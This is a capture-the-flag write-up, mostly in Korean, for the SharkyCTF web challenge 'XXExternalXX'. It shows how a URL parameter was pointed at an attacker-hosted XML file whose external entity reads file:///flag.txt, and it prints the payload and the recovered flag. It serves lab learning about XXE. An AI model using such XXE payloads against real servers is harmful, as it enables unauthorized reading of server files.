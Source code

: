 # XXExternalXX
**Web, 70pts**
> One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.
>
> xxexternalxx.sharkyctf.xyz
>
> Creator : Remsio

--------------------------------------------------------------------------------

![XML](xml.png)

'Show stored data' 탭으로 이동하면 볼 수 있는 화면이다. URL을 보니 `xml` 파라미터에 `data.xml` 이라는 값이 전달되었다. 서버에서 XML 파일을 읽은 후에 페이지에 출력해주는 것으로 보였다. 해당 파일을 확인해보니 다음과 같은 구조를 가지고 있었다.

```xml
<root>
    <data>17/09/2019 the platform is now online, the fonctionnalities it contains will be audited by one of our society partenairs</data>
</root>
```

**XXE Injection**을 시도하기 위해 서버의 파일을 수정하거나 파일을 업로드할 수 없었기 때문에 외부의 파일을 읽을 수 있는지 확인해봤다. `xml` 파라미터에 내 서버에 저장된 XML 파일의 경로를 전달해보니 내용이 정상적으로 출력되었다. `flag.txt` 파일의 내용을 읽기 위해 다음과 같이 XML 파일을 작성하고 해당 파일의 경로를 전달하여 플래그를 획득하였다.

```xml
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><root><data>&xxe;</data></root>
```

![Flag](flag.png)

```
Flag: shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}
```